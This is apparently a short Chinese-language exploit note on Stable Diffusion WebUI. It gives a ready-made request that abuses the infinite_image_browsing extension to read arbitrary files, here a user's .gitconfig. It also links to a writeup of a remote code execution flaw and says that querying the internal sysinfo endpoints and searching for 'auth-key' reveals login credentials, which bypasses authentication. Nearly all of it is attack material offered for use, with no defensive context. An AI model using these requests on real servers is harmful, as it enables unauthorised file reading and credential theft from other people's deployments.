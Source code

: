 ## Stable_Diffusion 任意文件读取

## POC

```
https://www.xxxx.com/infinite_image_browsing/file?path=/home/ops/.gitconfig&t=1
```

## Stable_Diffusion RCE漏洞

## POC
参考
https://blog.stevenyu.tw/2023/04/23/stable-diffusion-webui-rce-vulnerabilitiy/

## Stable_Diffusion 登录绕过漏洞
访问下面的API，搜索auth-key，可以找到登录账号和密码。
https://x-x.xxx.com/internal/sysinfo
https://x-x.xxx.com/internal/sysinfo-download
